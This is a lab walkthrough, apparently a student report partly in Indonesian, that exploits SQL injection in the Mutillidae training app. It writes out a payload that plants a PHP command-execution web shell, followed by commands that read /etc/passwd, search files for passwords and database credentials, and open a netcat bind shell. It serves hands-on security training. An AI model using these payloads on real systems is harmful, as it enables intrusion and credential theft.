 # Lesson 10 : SQL Injection Union Exploit #3 (Create PHP Execution Script)

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Inject Backdoor into User Info Page
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan 
	```
		' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
	```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya

## Using the Backdoor for Basic Reconnaissance
1. Initial Reconnaissance
	- Buka url berikut pada browser 
	http://192.168.1.111/mutillidae/execute_command.php
	- Ketikkan perintah berikut pada textbox
	  ```whoami; pwd```
	- Klik tombol Execute Command
2. Who is Logged On
   - Ketikkan perintah berikut pada textbox
	 ```w```
   - Klik tombol Execute Command
3. Exploring /etc/passwd
   - Ketikkan perintah berikut pada textbox
	 ```cat /etc/passwd```
   - Klik tombol Execute Command
4. Network Reconnaissance
   - Ketikkan perintah berikut pada textbox
	 ```netstat -nao | grep "0.0.0.0:"```
   - Klik tombol Execute Command

## Using the Backdoor for Database Reconnaissance
1. Database Reconnaissance
   - Ketikkan perintah berikut pada textbox
	 ```find * -name "*.php" | xargs grep -i "password" | grep "="```
   - Klik tombol Execute Command
2. View Database Authentication Attributes
	   - Ketikkan perintah berikut pada textbox
	 ```cat config.inc | grep -v "<?php"```
   - Klik tombol Execute Command

##  Using the Backdoor for Netcat Reconnaissance
1. Netcat Reconnaissance
   - Ketikkan perintah berikut pada textbox
	 ```which nc; netstat -nao | grep 4444 | wc -l```
   - Klik tombol Execute Command
2. Execute Netcat
   - Ketikkan perintah berikut pada textbox
	 ```mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe```
   - Klik tombol Execute Command